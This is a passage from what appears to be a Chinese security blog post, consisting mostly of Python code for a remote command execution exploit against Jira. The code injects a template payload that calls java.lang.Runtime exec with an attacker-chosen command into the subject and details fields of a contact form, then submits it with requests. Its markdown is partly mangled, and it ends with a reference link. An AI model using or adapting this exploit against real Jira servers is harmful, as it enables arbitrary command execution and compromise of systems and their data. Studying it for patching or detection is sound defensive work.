     # body of post request
     #(),'subject':"",'details':",'atl_token': value,'Send':'Send'}
    payload = "$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('%s').waitFor()" % cmd
    qparams = (('from','JIRA@JIRA.com'),('subject',payload),('details',payload),('atl_token',token),('Send','Send'))

    #Final Payload
    attack = s.post(domain, headers = headers, data = qparams, proxies=proxyDict, verify=False) 
``` `if **name** == ‘**main**’:

JiraScan(args.domain,args.cmd)` 
```

## 参考链接

> https://www.cnblogs.com/backlion/p/11608439.html